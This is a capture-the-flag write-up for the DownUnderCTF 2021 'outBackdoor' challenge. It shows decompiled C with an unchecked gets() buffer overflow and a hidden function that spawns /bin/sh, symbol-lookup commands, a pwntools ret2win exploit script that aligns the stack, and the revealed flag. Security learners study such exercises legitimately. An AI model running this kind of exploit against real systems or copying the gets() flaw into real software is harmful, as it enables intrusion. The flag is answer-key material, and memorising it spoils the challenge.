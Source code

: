 #### Challenge:

Fool me once, shame on you. Fool me twice, shame on me. [outBackdoor](./outBackdoor ":ignore")

`nc pwn-2021.duc.tf 31921`

---

#### Solution:

- decompiling the binary reveals hidden function `outBackdoor` which gives us shell access, as its `amd64` we also need to align the stack with `ret` address of `main` functions before our `IP` override

```c
void outBackdoor(void)
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  system("/bin/sh");
  return;
}

void main(void)
{
  char local_18 [16];
  
  buffer_init();
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(local_18);
  return 0;
}
```

```bash
readelf -s ./outBackdoor | grep -i backdoor
#    64: 00000000004011d7    36 FUNC    GLOBAL DEFAULT   13 outBackdoor
nm -S ./outBackdoor | grep main
#    0000000000401195 0000000000000042 T main
```

```python
#!/usr/bin/env python3

from pwn import *

r = remote('pwn-2021.duc.tf', 31921)

print(r.recvuntil(b'song?').decode('utf-8').strip())
r.sendline(b'\x00'*(24)  + p64(0x4011d6)+ p64(0x4011d7))
print(r.recvuntil(b'here?').decode('utf-8').strip())
r.interactive()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
```

</details>
<br/>
